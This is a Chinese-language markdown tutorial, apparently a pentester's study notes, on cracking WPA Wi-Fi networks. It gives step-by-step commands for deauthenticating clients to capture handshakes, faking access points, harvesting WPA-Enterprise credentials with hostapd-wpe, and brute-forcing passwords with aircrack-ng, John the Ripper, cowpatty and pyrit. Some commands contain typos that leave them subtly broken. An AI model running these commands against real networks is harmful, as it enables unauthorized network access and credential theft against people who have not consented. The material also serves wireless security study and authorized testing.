

# WPA攻击

## 0x01  破解
> 只有一种破解方式方法: **暴力破解**  
> 按类型分为WPA个人(PSK), WPA企业(EAP)


- 消耗计算资源
- 消耗时间
- 成败关键看字典
  - 网上共享的字典
  - 泄露秘密
  - 地区电话号码段
  - Jhon或Crunch工具生成字典
  - Kali中字典的字典文件

## 0x02 WPA PSK 攻击
### PSK破解过程
1. 启动monitor
2. 开始抓包并保存
3. Deauthentication攻击获取4步握手信息
4. 使用字典暴力破解

### 实践

1. 准备

  ```bash
  service network-manager stop

  airmon-ng check kill
  ```

2. 启动monitor

  ```bash
  airmon-ng start wlan0
  ```
3. 开始抓包并保存

  ```bash
  airodump-ng wlan0mon

  airodump-ng --bssid <AP BSSID> -c 11 -w wpa wlan0mon
  ```

4. Deauthentication攻击获取4步握手信息

  ```bash
  aireplay-ng -0 2 -a <AP BSSID> -c <STATION MAC> wlan0mon
  ```

5. **密码破解**

  ```bash
  aircrack-ng -w /usr/share/john/password.lst wpa-01.cap
  ```
  
### 无AP情况下的WPA密码破解
> 伪造目标的probe的ESSID的AP, 使其自动连接,抓取握手包的前两个包(目的是为了获取加密用的两个随机数ANonce, SNonce).
  

#### 步骤
1. 启动monitor
2. 开始抓包探测目标probe
3. 根据probe信息伪造相同ESSID的AP


```bash
airbase-ng --essid ESSID -c 11 wlan0mon # 开放AP

airbase-ng --essid ESSID -c 11 wlan0mon -0 # -0,同时设置所有种类加密类型AP
```
4. 抓取四步握手中的前两个包
5. 使用字典暴力破解


## 0x03 WPA企业破解 

安装hostapd,并打wpe补丁
相关项目: 
http://w1.fi/releases/
https://github.com/OpenSecurityResearch/hostapd-wpe
```text
Basic usage is:

    hostapd-wpe hostapd-wpe.conf 

Credentials will be displayed on the screen and stored in hostapd-wpe.log

Additional WPE command line options are:

    -s  Return EAP-Success messages after credentials are harvested
    -k  Gratuitous probe responses (Karma mode) 
    -c  Attempt to exploit CVE-2014-0160 (Cupid mode)

Building 
---------

    $ git clone https://github.com/OpenSecurityResearch/hostapd-wpe 

    Ubuntu/Debian/Kali Building - 
    -----------------------------------------------------------------------
        $ apt-get update
        $ apt-get install libssl-dev libnl-dev
        
        if you're using Kali 2.0 install:
        $ apt-get install libssl1.0-dev libnl-genl-3-dev  # GitHub项目为apt-get install libssl-dev libnl-genl-3-dev, kali3测试编译时失败
        

    General - 
    ------------------------------------------------------------------------
    	Now apply the hostapd-wpe.patch:
        
        $ git clone https://github.com/OpenSecurityResearch/hostapd-wpe

        $ wget http://hostap.epitest.fi/releases/hostapd-2.6.tar.gz
        $ tar -zxf hostapd-2.6.tar.gz
        $ cd hostapd-2.6
        $ patch -p1 < ../hostapd-wpe/hostapd-wpe.patch 
        $ cd hostapd
        
        If you're using Kali 2.0 edit .config file and uncomment:
        CONFIG_LIBNL32=y  #默认已经取消注释了
        
        $ make

        I copied the certs directory and scripts from FreeRADIUS to ease that 
        portion of things. You should just be able to:

        $ cd ../../../hostapd-wpe/certs
        $ ./bootstrap

        then finally just:
        
        $ cd ../../../hostapd-2.6/hostapd
        $ sudo ./hostapd-wpe hostapd-wpe.conf


Running:
----------------

    With all of that complete, you can run hostapd. The patch will
    create a new hostapd-wpe.conf, which you'll likely need to modify
    in order to make it work for your attack. Once ready just run

    hostapd hostapd-wpe.conf
```

在启动`hostapd hostapd-wpe.conf`之前, 可以先修改hostapd-wpe.conf, 
```text
interface=wlan0

dirver=nl80211


ssid=kifi
hw_mode=g
channel=11
# 看情况改
```

### 破解
**注意: **
> 先执行
```bash
service network-manager stop
airmon-ng check kill 
```
再把网卡映射到kali中

```bash
./hostapd-wpe hostapd-wpe.conf 

有人尝试连接时显示challenge 和 response
```

```bash
asleap -C < challenge > -R <response> -W password.lst
```

## 0x04 密码破解
### AIROLIB破解密码
> 适用于经常破解特定ESSID名称的AP密码

- 设计用于存储ESSID和密码列表
- 计算生成不变的PMK（计算资源消耗型）
- PMK在破解阶段被用于计算PTK（速度快，计算资源要求少）
- 通过完整性摘要值破解密码
- SQLlite3数据库存储数据

```bash
echo ESSID > essid.txt 

airolib-ng db --import essid essid.txt

airolib-ng --import passwd /usr/share/john/password.lst  #会自动剔除不合格的WPA字典

airolib-ng db --stats

airolib-ng db --batch   #计算PMK

airolib-ng db --stats

aircrack-ng -r db wpa.cap   # 字典里添加了正确的密码了,但这个居然没有试验成功!不清楚什么情况
```

### JTR破解密码
> John the ripper,
- 快速的密码破解软件
- 支持基于规则扩展密码字典
- 实例: 很多人喜欢用手机号码做无线密码, 可以获取号段并利用JTR规则增加最后几位的数字

```bash
vi /etc/john/john.conf
在最后加上密码规则
$[0-9]$[0-9]$[0-9]$[0-9]

测试效果
john --wordlist=passwrod.list --rules --stdout | grep -i Password1234

破解调用
john --wroldlist=pass.list --rules --stdout | aricrack-ng -e kifi -w - wap.cap
```

或

```bash
john --wordlist=num.txt --stdout --mask=?w[1-9][1-9][1-9][1-9] | aircrack-ng -e ESSID -w - wpa-01.cap # 末尾填四个数字之后利用生成密码破解
```

### COWPATTY破解密码
> WPA密码通用破解工具

- 使用密码字典  
```bash
cowpatty -r wpa-01.cap -f password.lst -s ESSID
```

- 使用彩虹表(PMK)    

```bash
genpmk -f password.lst -d pmkhash -s ESSID

cowpatty -r wpa-01.cap -d pmkhash -s ESSID
```


### PYRIT破解密码
> 与airolib、cowpatty相同，支持基于预计算的PMK提高破解速度

- 独有的优势
  - 除CPU之外pyrit可以运行GPU的强大运算能力加速生成PMK
  - 本身支持抓包获取四步握手过程，无需用Airdum抓包
  - 也支持传统的读取airodump抓包获取四步握手的方式
- 只抓取WAP四次握手过程包

```bash
pyrit -r wlan2mon -o wpapyrit.cap stripLive

pyrit -r wpapyrit.cap analyze
```

- 从airodump抓包导入并筛选

```bash
pyrit -r wpa.cap -o wpapyrit.cap strip
```

#### 使用密码字典破解

```bash
pyrit -r pyrit.cap -i ./password.lst -b 24:da:9b:7b:81:36  attack_passthrough
```

#### 数据库模式破解
- 默认使用基于文件的数据库，支持连接SQL数据库，将计算的PMK存入数据库
- 查看默认数据库状态：

```bash
pyrit eval
```
- 导入密码字典

```bash
pyrit -i password.lst import_passwords (自动剔除不合规的密码）
```

- 制定ESSID

```bash
pyrit -e ESSID create_essid
```

- 计算PMK(**会自动调用GPU计算**)

```bash
pyrit batch  (发挥GPU计算能力）
```

- 破解密码

```bash
pyrit -r wpapyrit.cap -b <AP MAC> attack_db
或
pyrit -r pyrit.cap -e <AP ESSID> attack_db
```
